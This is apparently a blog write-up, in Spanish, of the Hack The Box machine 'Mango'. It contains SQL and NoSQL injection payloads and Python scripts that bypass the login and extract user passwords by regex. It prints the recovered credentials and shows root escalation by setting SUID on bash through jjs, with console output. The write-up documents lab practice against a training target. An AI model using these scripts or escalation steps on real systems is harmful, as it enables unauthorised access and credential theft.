 ```yaml
---
layout: single
title: Mango - Hack The Box
excerpt: "Javascript e inyeccion NoSQL (Mongo)"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-devzat/devzat1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - binary exploit  
---
```


# 10.10.10.162 - Mango

![](/assets/images/htb-mango/mango1.png)

----------------------

Puertos abiertos: 22(ssh), 80(http), 443(https)

```console
└─$ openssl s_client -connect 10.10.10.162:443
staging-order.mango.htb, emailAddress = admin@mango.htb
└─$ whatweb http://10.10.10.162
[403 Forbidden] Apache[2.4.29], HTTPServer[Ubuntu Linux]
└─$ whatweb https://10.10.10.162
[200 OK] Apache[2.4.29], Bootstrap, Title[Mango | Search Base]
```
La web solo tiene un enlace funcional a /analytics.php, donde funciona solo al poner la ip (no mango.htb)
Hay una tabla de datos que podemos descargar al darle a "save". Aun así tampoco pude hacer mucho con eso.

![](/assets/images/htb-mango/mango2.PNG)

En el panel de login se manda:
```/POST a http://staging-order.mango.htb/ username=test&password=test&login=login PHPSESSID:"4h9rnhfsteketion8qoom89evt"```
![](/assets/images/htb-mango/mango3.PNG)

Al ser un panel de login podemos hacer cuatro cosas:  
- Inyeccion SQL con payloads del tipo ```' or 1=1-- -``` ```' or sleep(5)-- -``` (...OR por AND y ' por "")  
- Inyeccion Type Jugling (PHP) -> "password=true"  
- Fuzzing de posibles contraseñas  
- NoSQlInyection -> contraseña[$ne]=test "La contraseña no es "test".  

Como estamos ante una web que maneja bases de datos (por lo que vimos en analytics) sera SQL o no SQL. La manera de probar el mirando el content lenght 
(El de la respuesta mala es 4022, es decir redireccion a la misma ruta) Todos los payloads sql fallan pero no NoSQL

```python
#!/usr/bin/python3

import requests
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
data = {"username":"admin","password[$ne]":"test","login":"login"}
req2 = requests.post(url, data=data, headers=headers)
print(len(req2.text))
```

Aun así entrar nos devuelve este mensaje  "Todavía se están plantando (los mangos). Perdon por la inconveniencia, pero acabamos de emepezar la granja"  
Hay inyecciones NoSQL especiales que nos pueden ayudar a obtener información:  

```python
import requests, string

caracteres = string.ascii_lowercase + "_"
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
nombre = ""
for character in caracteres:
    data = {"username[$regex]":"^" + character + ".*","password[$ne]":"test","login":"login"}
    req2 = requests.post(url, data=data, headers=headers)
    if len(req2.text) < 4022:
        print(character)
```
Conseguimos "a" y "m"  

```python3
nombre = "a"
for i in range(20):
    for character in caracteres:
        data = {"username[$regex]":"^" + nombre + character + ".*","password[$ne]":"test","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            nombre += character
            print(nombre)
```
Sale "admin", para el segundo (el que empieza por "m"), pongo ```nombre = "m"```  
No hay mas nombres por la "a", pero si los hubier se pondría ```caracteres = string.ascii_lowercase.strip("d")```  
para sacar la segunda letra (y que no fuera "d").  

```python
caracteres = string.printable
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
contraseña = ""
while True:
    for character in caracteres:
        data = {"username":"admin","password[$regex]":"^" + contraseña + re.escape(character) + ".*","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            contraseña += character
			print(contraseña)
```
Creds -> admin:t9KcS3>!0B#2, mango:h3mXK8RhU~f{]f5H  

Con estas contraseñas podemos acceder por ssh con mango ```ssh mango@10.10.10.162```
- SUIDS: /usr/bin/run-mailcap, /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs  
- PUERTOS: 127.0.0.1:27017   

En [Gtfo-bins](https://gtfobins.github.io/gtfobins) hay entradas para ambos binarios, pero solo jjs tiene SUID.  
El comando es este (ej con "whoami") y se ejecutará en contenxto privilegiado.  
```echo "Java.type('java.lang.Runtime').getRuntime().exec('whoami').waitFor()" | /jss```  
El asunto esque la shell que nos proponen ```/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)```  
se queda atascada, asi que la solución sería el comando de hacer SUID a la bash ```chmod u+s /bin/bash```  
```console
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | /jss
admin@mango:/home/mango$ bash -p
bash-4.4# whoami
root
```
Aunque tenemos que leer la flag rapidamente porque no se porque hay ocasiones en que me bajan los privilegios.  

jjs sirve para invocar el motor "Nashorn", pero dicen que tanto el comando como el motor lo eliminarán en futuras versiones de java.
Java tira de motores y entornos virtuales para funcionar, es un lenguaje un tanto extraño.  
